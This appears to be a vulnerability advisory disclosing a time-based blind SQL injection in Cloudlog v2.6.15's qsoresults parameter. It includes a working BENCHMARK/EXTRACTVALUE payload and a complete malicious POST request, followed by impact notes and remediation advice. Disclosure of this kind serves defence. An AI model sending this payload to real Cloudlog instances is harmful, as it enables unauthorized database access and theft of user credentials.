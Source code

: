 # SQL injection in Cloudlog v2.6.15 - qsoresults parameter


A time-based blind SQL Injection vulnerability has been identified in the **Cloudlog v2.6.15 platform**, at the endpoint /index.php/logbookadvanced/search, through the qsoresults parameter . This vulnerability allows a malicious user to execute arbitrary SQL commands on the MySQL database, compromising the security of the system.

# Vulnerable endpoint:
URL: /index.php/logbookadvanced/search
Method: POST
Vulnerable parameter: qsoresults

# Vulnerability Details:

The vulnerability exploits an SQL injection to force the execution of an SQL function (such as BENCHMARK or EXTRACTVALUE), deliberately slowing down the system to confirm the existence of the vulnerability.


Payload:
**qsoresults=250 PROCEDURE ANALYSE(EXTRACTVALUE(1073,CONCAT(0x5c,(BENCHMARK(5000000,MD5(0x65636f70))))),1)**


 
**Malicious HTTP Request:**

POST /index.php/logbookadvanced/search HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 104

qsoresults=250 PROCEDURE ANALYSE(EXTRACTVALUE(1073,CONCAT(0x5c,(BENCHMARK(5000000,MD5(0x65636f70))))),1)



# Impact:
An attacker can exploit this vulnerability to:
Execute arbitrary SQL queries, potentially extracting sensitive data.
Compromise database integrity.
Gain unauthorized access to critical data such as user credentials.

# Recommended Solution:
Input Validation: Implement strict input sanitization for the qsoresults parameter .
Parameterized Queries: Use parameterized queries to prevent user injection of SQL commands.
Permission Restriction: Restrict the privileges of the database user used by the application.
Web Application Firewall (WAF): Implement a WAF to monitor and block SQL injection attempts.




